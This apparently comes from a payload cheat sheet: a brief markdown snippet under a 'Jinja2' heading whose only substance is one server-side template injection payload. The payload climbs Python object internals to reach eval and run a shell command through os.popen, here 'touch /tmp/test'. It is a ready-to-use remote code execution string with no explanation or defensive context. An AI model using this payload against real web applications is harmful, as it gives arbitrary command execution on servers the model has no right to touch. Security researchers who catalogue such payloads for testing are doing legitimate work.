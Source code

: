 # Type
## Jinja2
```python
{{().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("touch /tmp/test").read()')}}
```
- 
